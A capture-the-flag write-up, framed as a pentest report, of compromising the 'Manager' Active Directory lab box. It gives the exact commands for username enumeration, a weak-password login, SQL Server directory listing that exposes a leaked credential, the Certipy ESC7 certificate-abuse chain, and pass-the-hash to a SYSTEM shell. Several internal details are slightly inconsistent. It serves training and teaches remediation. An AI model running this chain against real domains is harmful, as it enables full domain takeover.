

## Engagement Overview

The auditor was tasked with assessing **Manager**, a Windows Active Directory domain controller also running Microsoft SQL Server, under a black-box methodology with no prior credentials. The objective was to identify exploitable weaknesses reachable from an unauthenticated network position and determine whether they could lead to full domain compromise.

## Methodology

The engagement followed a standard four-phase approach: reconnaissance, credential access, lateral enumeration, and privilege escalation. Each finding below is presented with its technical root cause, the steps taken to validate it, and remediation guidance.

## Reconnaissance

```bash frame="code"
$ nmap -sCV --open -A 10.10.11.236
53/tcp   open  domain
80/tcp   open  http          Microsoft-IIS/10.0
88/tcp   open  kerberos-sec
389/tcp  open  ldap          Active Directory LDAP (Domain: manager.htb)
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019
```

The web application on port 80 exposed no interesting client-side content, and directory and virtual-host fuzzing against it returned nothing new. SMB and RPC null sessions were both rejected, but an unauthenticated SID-brute-force against the domain's RPC endpoint still succeeded, disclosing the built-in accounts, and a subsequent Kerberos username enumeration pass confirmed two additional live accounts, `Zhong` and `Operator`.

```bash frame="code"
$ lookupsid.py anonymous@10.10.11.236
500: MANAGER\Administrator
502: MANAGER\krbtgt
```

The tester then cross-checked that base list against Kerberos itself, which confirmed two further live accounts not exposed by the SID brute-force alone:

```bash frame="code"
$ kerbrute userenum --dc 10.10.11.236 -d manager.htb userlist.txt
[+] VALID USERNAME:       Zhong@manager.htb
[+] VALID USERNAME:       Operator@manager.htb
```

## Finding 1: Weak Service Account Password

> [!CAUTION]
> **Severity: Medium.** A guessable, username-derived password on a valid domain account.

With a small confirmed username list in hand, the tester tested each account against its own lowercase name as a password, a common but still frequently effective weak-credential check. The `Operator` account accepted `operator` as its password:

```bash frame="code"
$ crackmapexec smb 10.10.11.236 -u Operator -p operator --shares
[+] manager.htb\Operator:operator
```

This account had no interactive logon rights (WinRM and RDP were both denied) and no Kerberoastable SPNs of its own, so the tester pivoted to enumerating the SQL Server instance for further access instead.

## Finding 2: Credential Disclosure via an Exposed Backup Archive

> [!CAUTION]
> **Severity: High.** A plaintext service-account password disclosed through a leftover backup file on the public web root.

The `Operator` credential was valid against Microsoft SQL Server. The account lacked `xp_cmdshell` rights, but retained the `xp_dirtree` stored procedure, which the tester used to list the contents of the IIS web root remotely:

```sql
SQL (MANAGER\Operator  guest@master)> xp_dirtree C:\inetpub\wwwroot
website-backup-27-07-23-old.zip       1      1
```

That directory listing revealed an old backup archive sitting directly in the public web root and therefore downloadable over HTTP without any authentication at all. Inside it, a leftover LDAP configuration file contained a plaintext service-account credential:

```bash frame="code"
$ cat .old-conf.xml
<user>raven@manager.htb</user>
<password>R4v3nBe5tD3veloP3r!123</password>
```

## Finding 3: Domain Compromise via Active Directory Certificate Services (ESC7)

> [!CAUTION]
> **Severity: Critical.** A misconfigured certificate authority access right allowing any holder to issue themselves a certificate for the Domain Administrator account.

With `Raven`'s credentials, the tester enumerated the domain's certificate infrastructure using Certipy and identified a template-level misconfiguration classified as **ESC7**: the `Raven` account held dangerous management permissions directly on the Certificate Authority itself.

```bash frame="code"
$ certipy find -u 'Raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -vulnerable
ESC7 : 'MANAGER.HTB\Raven' has dangerous permissions
```

Exploiting ESC7 requires the vulnerable `SubCA` certificate template to be enrollable, a prerequisite the tester confirmed against the technique's public documentation before proceeding:



The tester first used the CA management rights to grant themselves officer status, then re-enabled the `SubCA` template for enrollment:

```bash frame="code"
$ certipy ca -u 'Raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -add-officer raven
$ certipy ca -u 'Raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -enable-template SubCA
```

A direct certificate request for the Administrator's UPN was initially denied by template policy, but as a CA officer the tester could simply approve their own pending request and then retrieve the issued certificate:

```bash frame="code"
$ certipy req -u 'Raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target 'dc01.manager.htb' -template 'SubCA' -upn 'administrator@manager.htb'
$ certipy ca -u 'Raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -issue-request 26
$ certipy req -u 'Raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -retrieve '26'
```

That certificate was then exchanged for a valid Kerberos ticket and NT hash for the Administrator account:

```bash frame="code"
$ certipy auth -pfx administrator.pfx
Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

The recovered hash was used directly to obtain a `SYSTEM` shell on the domain controller:

```bash frame="code"
$ psexec.py administrator@10.10.11.236 -hashes :ae5064c2f62317332c88629e025924ef
C:\Windows\system32>
```

This confirmed full compromise of the Active Directory domain.

## Impact

This engagement reached Domain Admin through a chain that began entirely outside the certificate infrastructure: a guessable password on a low-value account led to a backup file left in a public web directory, which disclosed a second account's plaintext credential, which in turn held just enough Certificate Authority management rights to escalate to full domain control. An attacker exploiting this chain would gain unrestricted control of every account, machine, and resource in the domain, and would retain a valid, hard-to-revoke certificate-based credential for persistence.

## Recommendations

- **Enforce strong, non-username-derived passwords** for all service and operator accounts, and audit for accounts with no expiry or complexity requirements.
- **Never leave backup archives in a public web root**; store them outside the served directory tree and restrict access by network location and authentication.
- **Audit Certificate Authority access rights** regularly; no standard user or low-privileged service account should hold `Manage CA` or `Manage Certificates` permissions.
- **Review all enabled certificate templates for ESC1 through ESC8 misconfigurations** using a tool such as Certipy, and disable or reissue templates that allow client-authentication EKUs with attacker-controllable subject names.

## Conclusion

The auditor successfully escalated from a guessable service-account password to full Domain Admin, by chaining a public backup file disclosure with an Active Directory Certificate Services ESC7 misconfiguration. Each stage of the chain is detailed above with reproduction steps and remediation guidance.
